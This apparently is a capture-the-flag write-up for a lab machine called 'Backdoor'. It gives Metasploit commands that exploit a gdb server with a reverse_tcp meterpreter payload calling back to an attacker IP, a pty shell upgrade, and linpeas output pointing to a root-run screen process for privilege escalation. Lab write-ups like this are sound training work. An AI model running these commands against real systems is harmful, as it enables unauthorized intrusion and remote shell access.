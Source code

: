 - Use this `msf exploit` to get the user shell : `use exploit/multi/gdb/gdb_server_exec`

```bash
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost 10.10.14.76
lhost => 10.10.14.76
msf6 exploit(multi/gdb/gdb_server_exec) > set rhosts <IP OF THE MACHINE>

msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
rport => 1337

```
- Exploiting it gets us to `<meterpreter>` , to get a proper shell use `shell` command
- And we have the user shell 
- `python3 -c "import pty;pty.spawn('/bin/bash')"`

```bash
user@Backdoor:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)

user@Backdoor:~$ cat user.txt
<--SNIPPED-->
```

## Privilege Escalation

#### Linpeas

```bash
root         937  0.0  0.1   8356  3420 ?        S    07:15   0:00  _ /usr/sbin/CRON -f
root         954  0.0  0.0   2608  1596 ?        Ss   07:15   0:02      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec s
```
- The screen service is running at root privileges 

#### Root Shell


```bash
user@Backdoor:~$ /usr/bin/screen -h

-h lines      Set the size of the scrollback history buffer.
-i            Interrupt output sooner when flow control is on.
-l            Login mode on (update /var/run/utmp), -ln = off.
-ls [match]   or
-list         Do nothing, just list our SockDir [on possible matches].
-L            Turn on output logging.
-Logfile file Set logfile name.
-m            ignore $STY variable, do create a new screen session.
-O            Choose optimal output rather than exact vt100 emulation.
-p window     Preselect the named window if it exists.
-q            Quiet startup. Exits with non-zero return code if unsuccessful.
-Q            Commands will send the response to the stdout of the querying process.
-r [session]  Reattach to a detached screen process.
-R            Reattach if possible, otherwise start a new session.
-s shell      Shell to execute rather than $SHELL.
-S sockname   Name this session <pid>.sockname instead of <pid>.<tty>.<host>.
-t title      Set title. (window's name).
-T term       Use term as $TERM for windows, rather than "screen".
-U            Tell screen to use UTF-8 encoding.
-v            Print "Screen version 4.08.00 (GNU) 05-Feb-20".
-wipe [match] Do nothing, just clean up SockDir [on possible matches].
-x            Attach to a not detached screen. (Multi display mode).
```